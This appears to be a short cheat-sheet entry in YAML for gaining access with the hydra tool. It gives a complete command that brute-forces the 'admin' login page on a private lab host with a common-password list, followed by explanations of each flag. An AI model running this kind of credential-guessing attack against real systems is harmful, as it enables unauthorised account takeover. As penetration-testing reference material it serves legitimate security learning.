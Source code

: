 ```yaml
---
functions:
  gain-access:
    - description: hydra
      code: |
        hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /logon.php
        
        -l --> username
        -L --> username list
        -p --> password
        -P --> password list
        -t --> threads
        -s --> port
        http-get --> method
        /logon.php --> login path
---
```

